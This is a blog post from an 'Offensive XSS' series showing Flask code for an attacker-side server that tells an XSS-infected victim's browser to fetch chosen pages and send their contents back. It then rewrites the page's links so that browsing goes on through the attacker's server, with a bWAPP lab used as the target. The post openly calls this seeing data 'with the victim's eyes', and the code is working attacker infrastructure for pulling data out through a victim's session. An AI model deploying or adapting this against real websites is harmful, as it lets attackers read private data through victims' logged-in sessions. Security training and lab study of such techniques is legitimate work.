 ```yaml
---
layout: post
title:  "Offensive XSS 4: See with their eyes"
date:   2022-04-30 18:05:55 +0300
image:  OffensiveXSS4/title.jpg
author-name: strik1r
tags:   [XSS, data extraction]
---
```


<h2>Prologue:</h2>
We are starting the advanced XSS blog posts. We will be a little faster from here on and skip describing trivial things, however the full code will be available at the end of this post and also on our GitHub repository. As usual, let's continue adding features and capabilities picking it up from our previous posts. This time we will be adding a feature that would download let our victim browse a page and fetch it back to us. This particular capability let's us understand what's the data available if a victim browses the target page.
<br>
<h2>The command</h2>
Initially we will be doing that by setting a parameter in the GET request. This payload would contain a "setSiteCommand" parameter which would contain the site we want to redirect our user to! This site will be downloaded and be sent back to us as a response.

<h2>Setting the command</h2>
```
@app.route("/setSiteCommand", methods=['GET'])
def setSiteCommand():
    global command
    global isNewFileDownloaded
    global downloadedSite
    command = ""
    requestArgs = request.args
    siteValue = ""

    for index,i in enumerate(requestArgs.keys()):
        if index == 0:
            siteValue = requestArgs[i]
        else:
            siteValue = siteValue + "&" + i + "=" + requestArgs[i]
    command = "command=getSite&site=" + encodeBase64(siteValue)
    while not isNewFileDownloaded:
        time.sleep(1)
    isNewFileDownloaded = False

    downloadedSite = downloadedSite.replace('<a href="','<a href="http://127.0.0.1:5000/setSiteCommand?site=http://bee/bWAPP/')
    return downloadedSite
```

Now let's understand new setSiteCommand function's code above. We call this on the server to set target site which we wanted to download. To get the result in the browser window, we need a global flag called *isNewFileDownloaded*. This will be set when the response from the xss arrives and it is ready to be shown. In the global variable downloadedSite we will have the response from the XSS payload executed. Then we parse the GET request parameters and encode the URL to base64. As we have only one parameter at this time, the site itself, we should implement a check to see whether this is the first run. This time the parameter will be "site" so that we do not need to base64 encode. At the end we check if the new file is downloaded, if not we wait for 2 seconds, then when we finally get the site we injected. Before returning it as a response, we will do a little replacement. We will replace all the anchor tags
<a href=" and add our own server. For example a link to href="xss_stored_1.php" will be replaced to href="http://127.0.0.1:5000/setSiteCommand?site=http://bee/bWAPP/xss_stored_1.php"/>. Clicking on it will let our server know to fetch the contents of the site "http://bee/bWAPP/xss_stored_1.php" making our life and navigation to the page a bit easier. This obviously needs to be replaced for every target.
